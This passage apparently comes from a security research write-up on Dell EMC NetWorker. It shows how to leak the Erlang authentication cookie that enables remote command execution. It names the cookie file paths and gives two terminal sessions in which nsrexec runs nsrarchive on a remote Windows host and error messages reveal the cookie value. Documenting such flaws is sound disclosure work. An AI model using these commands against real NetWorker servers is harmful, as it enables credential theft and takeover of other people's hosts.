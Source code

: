 #### Erlang Cookie

The Erlang distribution server is used to coordinate distributed erlang instances. Should an attacker get the authentication cookie RCE is trivial. Usually, this cookie is named ".erlang.cookie" and varies on location.

On servers running Dell EMC Networker Server components, the file is **/nsr/rabbitmq/.erlang.cookie** on Linux and **C:\\\\Windows\\\\.erlang.cookie** on Windows. Given that we can leak that file content, we can gain remote command execution on the host by authenticating to the Erlang distribution service with that cookie.

Below is a quick demonstration of what dumping the Erlang cookie (`JFBODSOEGHDUTBYQTYYZ`) from a Windows host looks like:

```
[root@networker-client ~]# export RCMD='nsrarchive -f "C:\\Windows\\.erlang.cookie" -T t'
[root@networker-client ~]# nsrexec -c 192.168.121.183
89922 1613751664 1 5 0 1752 2468 0 networker-win nsrarchive NSR notice
74 \nFinished reading the annotation string; beginning the archive process.\n 0
87298 1613751664 2 5 0 1752 2468 0 networker-win nsrarchive NSR warning 48
Ignoring illegal external ASM name '%s' in '%s'. 2 0 20 JFBODSOEGHDUTBYQTYYZ
23 25 C:\Windows\.erlang.cookie
89987 1613751725 2 5 0 1752 2468 0 networker-win nsrarchive NSR warning
48 Cannot determine the job ID: %s. Continuing ...
1 24 184 A connection attempt failed because the connected party did not properly respond after a period of time,
or established connection failed because connected host has failed to respond.
98519 1613751731 2 5 0 1752 2468 0 networker-win nsrarchive NSR warning
47 Unable to setup direct save with server %s: %s. 2 12 13 networker-win
49 85 12289 54 archive services have not been enabled for client `%s' 1 12 13 networker-win
90095 1613751731 2 3 17 1752 2468 0 networker-win nsrarchive RAP warning
36 Cannot open %s session with '%s': %s 3 20 10 nsrarchive 12 13 networker-win
49 85 12289 54 archive services have not been enabled for client `%s' 1 12 13 networker-win
0 1613751731 1 5 0 1752 2468 0 networker-win nsrarchive NSR notice
48 %s%s: %-*s%s%s%s %*s %2.2ld:%2.2ld:%2.2ld %6s %s 14 0 0  20 10
nsrarchive 1 1 0 23 2 C: 0 1   0 0  0 0  1 1 0 0 5 24 GB 30 1 0 30 1 0 30 1 0 36 8 51410848 0 5 files
12289 1613751731 2 3 17 4088 4084 0 networker-win nsrd RAP warning
54 archive services have not been enabled for client `%s' 1 12 13 networker-win
94693 1613751731 5 5 0 1752 2468 0 networker-win nsrarchive NSR critical
35 The backup of save set '%s' failed. 1 51 2 C:
7167 1613751731 1 5 0 1752 2468 0 networker-win nsrarchive NSR notice
22 %s completion time: %s 2 20 10 nsrarchive 35 20 2/19/2021 5:22:11 PM
```

```
[root@networker-client ~]# export RCMD='nsrarchive -I "C:\\Windows\\.erlang.cookie" -T t'
[root@networker-client ~]# nsrexec -c 192.168.121.183
89922 1613751745 1 5 0 2084 2620 0 networker-win nsrarchive NSR notice
74 \nFinished reading the annotation string; beginning the archive process.\n 0
89987 1613751805 2 5 0 2084 2620 0 networker-win nsrarchive NSR warning
48 Cannot determine the job ID: %s. Continuing ...  1 24 184 A connection attempt failed because the connected party did not properly respond after a period of time, or established connection failed because connected host has failed to respond.
6999 1613751805 5 1 0 2084 2620 0 networker-win nsrarchive SYSTEM critical
29 %s: No such file or directory 1 0 20 JFBODSOEGHDUTBYQTYYZ
```
